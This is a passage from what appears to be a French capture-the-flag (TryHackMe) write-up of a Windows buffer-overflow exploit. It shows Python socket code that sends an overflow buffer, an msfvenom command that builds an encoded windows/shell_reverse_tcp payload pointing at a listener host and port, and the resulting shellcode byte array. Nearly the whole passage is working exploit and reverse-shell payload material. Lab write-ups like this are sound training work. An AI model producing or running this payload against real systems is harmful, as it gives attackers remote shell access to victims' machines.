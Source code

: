 ```python
try:
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    connect=s.connect((address,port))
    s.send(filler + '\r\n')
except:
    print '[!] Unable to connect to the application. You may have crashed it.'
    sys.exit(0)
finally:
    s.close()
```

On modifie notre exploit.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ msfvenom -p windows/shell_reverse_tcp LHOST=10.9.228.66 LPORT=1234 EXITFUNC=thread -f c -e x86/shikata_ga_nai -b "\x00\x0a"
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 351 (iteration=0)
x86/shikata_ga_nai chosen with final size 351
Payload size: 351 bytes
Final size of c file: 1500 bytes
unsigned char buf[] = 
"\xb8\xd4\x83\x3c\x2d\xdb\xc1\xd9\x74\x24\xf4\x5e\x33\xc9\xb1"
"\x52\x31\x46\x12\x83\xc6\x04\x03\x92\x8d\xde\xd8\xe6\x7a\x9c"
"\x23\x16\x7b\xc1\xaa\xf3\x4a\xc1\xc9\x70\xfc\xf1\x9a\xd4\xf1"
"\x7a\xce\xcc\x82\x0f\xc7\xe3\x23\xa5\x31\xca\xb4\x96\x02\x4d"
"\x37\xe5\x56\xad\x06\x26\xab\xac\x4f\x5b\x46\xfc\x18\x17\xf5"
"\x10\x2c\x6d\xc6\x9b\x7e\x63\x4e\x78\x36\x82\x7f\x2f\x4c\xdd"
"\x5f\xce\x81\x55\xd6\xc8\xc6\x50\xa0\x63\x3c\x2e\x33\xa5\x0c"
"\xcf\x98\x88\xa0\x22\xe0\xcd\x07\xdd\x97\x27\x74\x60\xa0\xfc"
"\x06\xbe\x25\xe6\xa1\x35\x9d\xc2\x50\x99\x78\x81\x5f\x56\x0e"
"\xcd\x43\x69\xc3\x66\x7f\xe2\xe2\xa8\x09\xb0\xc0\x6c\x51\x62"
"\x68\x35\x3f\xc5\x95\x25\xe0\xba\x33\x2e\x0d\xae\x49\x6d\x5a"
"\x03\x60\x8d\x9a\x0b\xf3\xfe\xa8\x94\xaf\x68\x81\x5d\x76\x6f"
"\xe6\x77\xce\xff\x19\x78\x2f\xd6\xdd\x2c\x7f\x40\xf7\x4c\x14"
"\x90\xf8\x98\xbb\xc0\x56\x73\x7c\xb0\x16\x23\x14\xda\x98\x1c"
"\x04\xe5\x72\x35\xaf\x1c\x15\x30\x39\xfa\xa7\x2c\x3b\x02\x2c"
"\x7f\xb2\xe4\x46\x6f\x93\xbf\xfe\x16\xbe\x4b\x9e\xd7\x14\x36"
"\xa0\x5c\x9b\xc7\x6f\x95\xd6\xdb\x18\x55\xad\x81\x8f\x6a\x1b"
"\xad\x4c\xf8\xc0\x2d\x1a\xe1\x5e\x7a\x4b\xd7\x96\xee\x61\x4e"
"\x01\x0c\x78\x16\x6a\x94\xa7\xeb\x75\x15\x25\x57\x52\x05\xf3"
"\x58\xde\x71\xab\x0e\x88\x2f\x0d\xf9\x7a\x99\xc7\x56\xd5\x4d"
"\x91\x94\xe6\x0b\x9e\xf0\x90\xf3\x2f\xad\xe4\x0c\x9f\x39\xe1"
"\x75\xfd\xd9\x0e\xac\x45\xf9\xec\x64\xb0\x92\xa8\xed\x79\xff"
"\x4a\xd8\xbe\x06\xc9\xe8\x3e\xfd\xd1\x99\x3b\xb9\x55\x72\x36"
"\xd2\x33\x74\xe5\xd3\x11";
```

On génère notre charge utile qui sera un reverse shell.     
